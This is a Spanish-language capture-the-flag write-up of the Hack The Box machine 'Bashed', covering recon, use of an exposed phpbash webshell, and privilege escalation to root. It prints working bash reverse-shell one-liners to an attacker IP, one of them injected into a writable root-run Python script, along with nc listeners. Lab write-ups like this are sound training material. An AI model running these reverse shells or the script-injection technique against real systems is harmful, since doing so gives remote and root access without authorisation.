 # 🧰 Hack The Box — Bashed

- **IP:** 10.10.10.68  
- **Nivel:** Fácil  
- **Sistema operativo:** Linux  
- **Categoría:** Web, Escalada de Privilegios  
- **Flag user:** ✅  
- **Flag root:** ✅  

---

## 🧾 Información general

Bashed es una máquina Linux de nivel básico en Hack The Box. En este reto, un desarrollador dejó un archivo *webshell* accesible en el servidor, permitiendo acceso como `www-data`. A partir de ahí, se escalaron privilegios aprovechando configuraciones incorrectas hasta conseguir acceso como `root`.

---

## 🔍 Fase 1: Reconocimiento

### WhatWeb

```bash
whatweb http://10.10.10.68
```

![WhatWeb Scan](./images/whatweb.png)

#### Resultados:
- Servidor web: Apache 2.4.18 sobre Ubuntu
- Soporte para PHP detectado
- Página principal estática → Posibles rutas ocultas

---

## 🚪 Fase 2: Escaneo y enumeración

### Escaneo Nmap

```bash
nmap -sCV 10.10.10.68
```

#### Parámetros:
- `-sC`: scripts por defecto
- `-sV`: detección de versiones

![Nmap Scan -sCV](./images/nmap-scv.png)
  
#### Resultado:
- Puerto **80/tcp** abierto → Apache 2.4.18


### Enumeración web con script

```bash
nmap --script http-enum -p80 10.10.10.68
```

![HTTP Enum](./images/http-enum.png)

#### Resultados:
- Directorio **/dev/** descubierto
- Contenido del directorio: `phpbash.php` → Shell web funcional

---

## 💥 Fase 3: Explotación

Se utilizó el archivo `phpbash.php` para lanzar una **reverse shell**:

### Reverse shell

Desde `phpbash.php`:

```bash
bash -c "bash -i >%26 /dev/tcp/10.10.14.22/4444 0>%261"
```

En el atacante:

```bash
nc -lvnp 4444
```

![Shell www-data](./images/phpbash-shell.png)


##### Resultado:
- Shell obtenida como `www-data`.

### Estabilizar shell

```bash
script /dev/null -c bash
```

![Shell estabilizada](./images/stable-shell.png)


---

## ⬆️ Fase 4: Escalada de privilegios

### Verificar permisos sudo

```bash
sudo -l
```

![sudo -l](./images/sudo-l.png)

##### Resultado:
- `www-data` puede ejecutar comandos como scriptmanager sin contraseña.

### Cambiar a scriptmanager

```bash
sudo -u scriptmanager /bin/bash
```

### Buscar archivos con permisos

```bash
find / -user scriptmanager 2>/dev/null | grep -v "proc"
```

![find test.py](./images/scriptmanager-bash.png)

##### Resultado:
- Archivo `/scripts/test.py` con permisos de escritura.

### Inyectar Reverse Shell en `test.py`

```bash
echo "import os; os.system('bash -c \"bash -i >& /dev/tcp/10.10.14.22/4445 0>&1\"')" > /scripts/test.py
```

Desde el atacante:

```bash
nc -lvnp 4445
```

![Root shell](./images/root-shell.png)

##### Resultado:
- Shell obtenida como `root`.

---

## 🏁 Fase 5: Post-explotación

### Flags

```bash
cat /home/arrexel/user.txt
```

![Flag user](./images/flag-user.png)

```bash
cat /root/root.txt
```

![Flag root](./images/flag-root.png)
